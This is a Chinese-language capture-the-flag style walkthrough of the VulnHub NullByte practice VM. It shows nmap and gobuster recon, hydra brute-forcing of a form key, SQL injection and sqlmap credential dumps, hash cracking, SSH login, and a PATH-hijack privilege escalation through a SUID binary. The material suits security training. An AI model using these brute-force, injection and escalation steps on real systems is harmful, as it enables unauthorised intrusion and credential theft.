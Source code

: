 
VMware打开后该设置报错:vmware workstation 不可恢复错误:(vmui)

## 解决
右键虚拟机名称->管理->更改硬件兼容性，改为VM16.x即可


## 靶机信息

地址：https://download.vulnhub.com/nullbyte/NullByte.ova.zip
目标：访问 /root/proof.txt 并按照说明进行操作。
级别：初级到中级。

## Recon
### 靶机信息:
```nmap
sudo nmap -sn 192.168.1.0/24 
//IP:192.168.1.138

sudo nmap -sT --min-rate 10000 -p- 192.168.1.138
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
777/tcp   open  multiling-http
39273/tcp open  unknown

```

## Web
主页是一个全视之眼:
![[Pasted image 20231005151158.png]]

### 目录爆破
```shell
sudo gobuster dir -u http://192.168.1.138 -w /usr/share/wordlists/dirb/common.txt
```
![[Pasted image 20231005151748.png]]
扫描到两个敏感目录
uploads目录没有可利用内容：
![[Pasted image 20231005152400.png]]
PhpMyAdmin是一个登录界面:
![[Pasted image 20231005152428.png]]

## 图片隐藏信息

回到主页下载主页的图片
```shell
wget http://192.168.1.138/main.gif 
```
Exiftool分析图片
```shell
exiftool main.gif
```
![[Pasted image 20231005152843.png]]

多次尝试后发现这是一个目录

## 暴力破解

![[Pasted image 20231005152953.png]]
- burp suite分析数据包


- hydra
```shell
sudo hydra 192.168.1.138 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l a -P /usr/share/wordlists/rockyou.txt
```

:key=^PASS^:POST的内容
:invalid key:错误信息
-l: 用户名
-P:密码(使用字典)

![[Pasted image 20231005162121.png]]
得到Key:``elite

## SQL注入
输入key后得到如下界面
![[Pasted image 20231005163005.png]]
随意输入内容，返回 Fetched data successfully，判断可能有数据库，尝试后发现是"闭合。
![[Pasted image 20231005163140.png]]

输入 `" or 1=1 -- "`，回显内容显示有三个字段

![[Pasted image 20231005163609.png]]

```SQL
" union select user(),version(),database() -- "
//数据库信息
EMP ID :root@localhost
EMP NAME : 5.5.44-0+deb8u1
EMP POSITION : seth 
```

## SQLMAP

```Shell
sudo sqlmap -u http://192.168.1.138/kzMb5nVYJw/420search.php?usrtosearch=1 --dbs 
```

![[Pasted image 20231005164932.png]]
```shell
sudo sqlmap -u http://192.168.1.138/kzMb5nVYJw/420search.php?usrtosearch=1 -D seth --tables
```
![[Pasted image 20231005165024.png]]
```shell
sudo sqlmap -u http://192.168.1.138/kzMb5nVYJw/420search.php?usrtosearch=1 -D seth -T users --columns
```
![[Pasted image 20231005165139.png]]
```shell
sudo sqlmap -u http://192.168.1.138/kzMb5nVYJw/420search.php?usrtosearch=1 -D seth -T users -C user,pass --dump

//得到用户名及密文
ramses | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE |
| isis   | --not allowed--
```

### 密码破解
得到的是base64编码
```shell
echo 'YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE' | base64 -d

// c6d6bd7ebf806f43c76acc3681703b81
```
解密
```shell
hash-identifier c6d6bd7ebf806f43c76acc3681703b81
```
![[Pasted image 20231005165709.png]]
在线md5解密：https://www.cmd5.com/
得到明文:omega

## SSH
这个靶机的ssh端口是777
```shell
nmap -sT -p 777 -sV 192.168.1.138

PORT    STATE SERVICE VERSION
777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
```

```shell
sudo ssh ramses@192.168.1.138 -p 777
```

## 提权

```shell
sudo -l
Sorry, user ramses may not run sudo on NullByte.
//ramses用户没有sudo
cat /home/ramses/.bash_history

sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
//bash历史记录看到可执行文件procwatch
```


![[Pasted image 20231005182627.png]]
看到ps命令有更高的权限

```shell
ln -s /bin/sh ps
export PATH=.:$PATH
./procwatch
```

![[Pasted image 20231005184506.png]]

成功提权

![[Pasted image 20231005184605.png]]